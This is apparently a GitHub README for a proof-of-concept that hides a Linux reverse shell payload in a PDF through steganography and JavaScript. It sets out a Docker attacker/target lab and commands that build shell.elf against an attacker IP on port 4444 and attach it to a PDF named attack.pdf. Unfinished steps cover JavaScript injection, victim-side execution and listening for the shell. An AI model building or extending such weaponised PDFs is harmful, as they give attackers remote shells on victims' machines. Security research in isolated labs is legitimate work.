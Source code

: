 # Reverse Shell + Stego-in-PDF + JavaScript PoC

## Overview
This project demonstrates an end-to-end proof-of-concept (PoC) for embedding a reverse shell payload inside a PDF using steganography and JavaScript. The workflow is modular and focuses on Linux for the initial implementation.

## Project Structure
```
reverse-stego-poc/
├── docker/                # Dockerfiles and compose for attacker/target
├── payloads/              # Generated payloads (e.g., shell.elf)
├── pdfs/                  # PDF carrier, embedding, and JS injection scripts
├── scripts/               # Build, listener, and simulation scripts
├── server/                # Optional HTTP server for payload delivery
├── output/                # Artifacts, logs, extracted files
├── docs/                  # Documentation and plans
├── README.md
└── requirements.txt
```

## Quickstart

### 1. Build and Start Docker Environment
```bash
cd docker
# Build and start both attacker and target containers
sudo docker compose -f compose.yml up --build
```
- This will start two containers: `attacker` and `target`, networked for reverse shell testing.

### 2. Generate a Linux Reverse Shell Payload
```bash
# From the project root or inside the attacker container:
LHOST=<attacker_ip> LPORT=4444 ./scripts/build_payload.sh
# Output: payloads/shell.elf
```

### 3. Attach Payload to PDF using Dockerized pdfcpu
```bash
# Make sure you have a base PDF at pdfs/base.pdf
# Attach the payload using the helper script:
# ./scripts/pdfcpu_attach.sh pdfs/base.pdf payloads/shell.elf pdfs/attack.pdf
./scripts/pdfcpu_attach.sh ./pdfs/new_base.pdf ./payloads/shell.elf ./pdfs/attack.pdf 
# Output: pdfs/attack.pdf (with payload attached)
```
- This uses the official pdfcpu Docker image ([repo](https://github.com/pdfcpu/pdfcpu)).

### 4. Next Steps
- Inject JavaScript if desired
- Simulate victim-side extraction and execution
- Listen for the reverse shell connection

## Requirements
- Python 3.10+
- Docker (for isolated testing)
- See requirements.txt for Python dependencies

## Status
- [x] Project structure and Docker environment
- [x] Payload generation script
- [x] PDF embedding (Dockerized pdfcpu)
- [ ] JS injection and end-to-end PoC
